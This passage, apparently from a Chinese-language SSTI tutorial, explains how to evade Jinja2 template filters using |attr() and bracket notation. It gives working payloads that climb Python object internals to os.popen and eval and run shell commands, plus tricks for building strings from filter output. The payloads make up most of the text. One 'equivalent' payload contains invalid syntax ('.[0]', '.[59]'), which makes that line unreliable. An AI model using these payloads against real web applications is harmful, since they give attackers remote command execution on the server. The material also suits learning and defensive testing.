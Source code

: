 ##### 点 .

###### **利用 |attr() 绕过**

用原生JinJa2函数`attr()`,当然这样只适用jinja2

```python
().__class__   相当于  ()|attr("__class__")
```

示例：

```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}
```

等同于：

```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

其实这个函数是一个 `attr()` 过滤器，它只查找属性，获取并返回对象的属性的值，过滤器与变量用管道符号（ `|` ）分割，它不止可以绕过点。

`|attr()` 配合其他姿势可同时绕过双下划线 `__` 、引号、点 `.` 和 `[` 等。

这里的`|attr()`其实是JinJa 的过滤器

变量可以通过过滤器进行修改，过滤器与变量之间用管道符号（|）隔开，括号中可以有可选参数，也可以没有参数，过滤器函数可以带括号也可以不带括号。可以使用管道符号（|）连接多个过滤器，一个过滤器的输出应用于下一个过滤器。

[过滤器详情](https://jinja.palletsprojects.com/en/master/templates/#builtin-filters)

###### **利用中括号[ ]绕过**

中括号直接拼接就可以，不需要用到`.`

如下示例：

```python
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

等同于：

```python
{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}
```

**这样操作后几乎所有的关键字都成了字符串，就可以用上面编码的方式（比如hex），绕过全部的过滤。**



### 过滤器bypass

#### 常用字符获取入口点

获取一般字符的方法有以下几种：

```php
{% set org = ({ }|select()|string()) %}{{org}} {% set org = (self|string()) %}{{org}} {% set org = self|string|urlencode %}{{org}} {% set org = (app.__doc__|string) %}{{org}} 
```
